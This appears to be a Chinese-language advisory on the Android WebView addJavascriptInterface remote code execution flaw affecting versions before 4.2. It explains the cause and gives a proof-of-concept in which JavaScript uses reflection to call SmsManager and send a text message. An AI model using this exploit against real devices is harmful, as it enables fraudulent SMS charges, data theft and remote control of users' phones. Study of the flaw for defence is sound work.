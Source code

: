 ## Android Webview远程代码执行漏洞
> 砸漏发布于2020-11-05

### 漏洞描述

Webview是Android用于浏览网页的组件，其包含的接口函数addJavascriptInterface可以将Java类或方法导出以供JavaScript调用，实现网页JS与本地JAVA的交互。由于系统没有限制已注册JAVA类的方法调用，因此未注册的其它任何JAVA类也可以被反射机制调用，这样可能导致被篡改的URL中存在的恶意代码被执行，用户手机被安装木马程序，发送扣费短信，通信录或者短信被窃取，甚至手机被远程控制。

### 影响范围

Android API level 小于17 (即Android 4.2之前的系统版本)

### 漏洞详情

#### 漏洞位置

```java
 WebView.addJavascriptInterface(Object obj, String interfaceName)  
```

#### 漏洞触发条件

使用addJavascriptInterface方法注册可供JavaScript调用的Java对象； 

使用WebView加载外部网页或者本地网页； 

Android系统版本低于4.2； 

#### 漏洞原理

Android系统通过WebView.addJavascriptInterface方法注册可供JavaScript调用的Java对象，以用于增强JavaScript的功能。但是系统并没有对注册Java类的方法调用的限制。导致攻击者可以利用反射机制调用未注册的其它任何Java类，最终导致JavaScript能力的无限增强。攻击者利用该漏洞可以根据客户端能力为所欲为。

### poc/exp

1. 利用addJavascriptInterface方法注册可供JavaScript调用的java对象 “injectedObj”，利用反射机制调用Android API sendTextMessage来发送短信。 

 java代码： 
```java
mWebView = new WebView(this);
mWebView.getSettings().setJavaScriptEnabled(true);
mWebView.addJavascriptInterface(this, "injectedObj");
mWebView.loadUrl(file:///android_asset/www/index.html);
```

 EXP的JavaScript代码： 
```html
<html>
 <body>
 <script>
  var objSmsManager = injectedObj.getClass().forName("android.telephony.SmsManager").getM ethod("getDefault",null).invoke(null,null);
  objSmsManager.sendTextMessage("10086",null,"this message is sent by JS when webview is loading",null,null);
 </script>
 </body>
</html>
```
